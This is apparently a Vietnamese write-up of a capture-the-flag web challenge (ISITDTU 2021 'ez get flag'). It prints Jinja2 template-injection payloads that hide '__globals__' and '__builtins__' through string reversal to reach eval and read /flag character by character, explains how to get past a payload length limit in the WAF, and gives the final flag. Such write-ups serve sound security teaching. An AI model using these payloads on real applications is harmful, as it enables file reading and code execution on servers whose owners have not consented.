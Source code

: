 ```python
{% set g='__slabolg__'|reverse%}{% set b='__snitliub__'|reverse%}{% set p=t.__init__[g][b]['eval']%}{<{p(' s if str([i for i in open("/flag")])[s]=="char" else a',{'s':"index"|length})}>}
```
Các bạn có thể đọc exploit code của mình tại [đây](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/ez%20get%20flag/exploit/exploit.py) rồi chạy thử.

Mặc dù vậy khi chạy exploit code chúng ta chỉ mới một nửa flag. Lí do nó spam các kí tự "a" ở cuối mà ko chịu in tiếp flag là vì theo exploit code thì string "index" sẽ được replace bằng một chuỗi "xxxx..." tăng dần, đồng nghĩa với độ dài payload sẽ liên tục tăng. Mà hàm isValid trong [waf.py](https://github.com/antoinenguyen-09/All_CTF_write-ups/blob/master/ISITDTU%20CTF/2021/web/ez%20get%20flag/source/files/lib/waf.py) chỉ cho phép payload dưới 202 kí tự:

```python
if countChar(picture) and len(picture) <= 202:
	...
```

Không sao cả, bạn chỉ cần thay đổi index của flag string từ `[s]` (iterate từ đầu đến cuối):

```python
{% set g='__slabolg__'|reverse%}{% set b='__snitliub__'|reverse%}{% set p=t.__init__[g][b]['eval']%}{<{p(' s if str([i for i in open("/flag")])[s]=="char" else a',{'s':"index"|length})}>}
```
![](https://i.imgur.com/g4vVIOp.png)

Thành `[-s]` (iterate từ cuối lên đầu):

```python
{% set g='__slabolg__'|reverse%}{% set b='__snitliub__'|reverse%}{% set p=t.__init__[g][b]['eval']%}{<{p(' s if str([i for i in open("/flag")])[-s]=="char" else a',{'s':"index"|length})}>}
```

![](https://i.imgur.com/7hbg4RW.png)

"Ez get flag" nhưng éo ez chút nào!!!! Flag cuối cùng là:

```text
ISITDTU{A_FreE_FlaG_FOr_YoU_!!!!!!!!!!!_heHe}
```

